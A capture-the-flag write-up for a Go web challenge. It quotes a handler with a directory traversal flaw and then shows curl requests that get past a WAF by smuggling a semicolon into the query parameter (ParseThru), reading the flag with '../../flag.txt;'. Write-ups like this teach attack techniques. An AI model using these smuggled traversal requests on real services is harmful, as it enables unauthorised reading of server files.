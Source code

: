 # Go through the hole
* Category: Web
* 400 Points
* Solved by the JCTF Team

## Description

> There is a rabbit hole that has a secret passage that leads to another world.
> 
> Can you find this hidden path?

```go
func accessHandler(w http.ResponseWriter, r *http.Request) {
    file := strings.Join(r.URL.Query()["file"], "")
    filePath := "templates/access.html"
    if file != "" {
        requestedFile := filepath.Clean(file)
        tmpPath := filepath.Join("/app/templates", requestedFile)

            _, err := os.Open(tmpPath)
        if err == nil {
            filePath = tmpPath
        } else {
            log.Print(err)
        }
    }
    var tpl = template.Must(template.ParseFiles(filePath))
    tpl.Execute(w, nil)
}
```


## Solution

Manually searching for the vulnerability in the attached code is so 2021. Let's ask [ChatGPT](https://openai.com/blog/chatgpt/) what it is:

> There is a potential vulnerability in the code because the `filepath.Join()` function is used to construct the file path for the requested file, but this function does not validate the input file to ensure that it does not contain directory traversal sequences such as "`..`". This means that an attacker could potentially supply a file name that includes "`..`" in the query string, allowing them to access files outside of the `/app/templates` directory.

Nice. Let's try it:

```console
┌──(user@kali)-[/media/sf_CTFs/intent/Go_through_the_hole]
└─$ curl -i "https://go-through-the-hole.intent.ctf.today/?file=flag.txt"
HTTP/2 401
date: Fri, 16 Dec 2022 13:20:09 GMT
content-type: text/plain; charset=utf-8
content-length: 12
strict-transport-security: max-age=15724800; includeSubDomains

Unauthorized
```

That didn't work. In fact, nothing that had the "file=" parameter worked, and it looked like there's some WAF blocking requests before they arrive to `accessHandler`.

We looked for ways to bypass a WAF related to `Golang` and found [ParseThru](https://www.oxeye.io/blog/golang-parameter-smuggling-attack) - A method for exploiting HTTP parameter smuggling in Golang. The name of the challenge raised the confidence that this is the vulnerability in question.

> GoLang – or Go – uses the ‘net/url’ library to parse URLs and, prior to version 1.17, would consider semicolons in the query part of the URL as a valid delimiter. With version 1.17, however, semicolons are treated as an error, and one of the methods responsible for getting the parsed query string ignores the error returned.
> 
> This means that when a Go-based public API built on version 1.17 or later communicates with an internal service running a prior version, specially crafted requests containing a semicolon in the query string could be smuggled through.
> 
> ([Source](https://portswigger.net/daily-swig/parsethru-http-parameter-smuggling-flaw-uncovered-in-several-go-applications))

So, all we need to do is append a semicolon to the parameter to smuggle it in, right?

```console
┌──(user@kali)-[/media/sf_CTFs/intent/Go_through_the_hole]
└─$ curl -i "https://go-through-the-hole.intent.ctf.today/?file=flag.txt;" -s  | grep h2
      <h2>Find the secret to enter the hole!</h2>
```

Unfortunately, this didn't work - the server ignored the parameter altogether. Some progress was made after trying to query the `/access` endpoint, based on `accessHandler`:

```console
┌──(user@kali)-[/media/sf_CTFs/intent/Go_through_the_hole]
└─$ curl -i "https://go-through-the-hole.intent.ctf.today/access?file=flag.txt;" -s  | grep h2
      <h2>Close, but not enough!</h2>
```

At this point, we were able to locate the flag file using the path traversal vulnerability we saw earlier:

```console
┌──(user@kali)-[/media/sf_CTFs/intent/Go_through_the_hole]
└─$ curl -i "https://go-through-the-hole.intent.ctf.today/access?file=../../flag.txt;" -s  | grep h2
      <h2>INTENT{g0_P4RseThru_sMugGl3_MTMzNw==}</h2>
```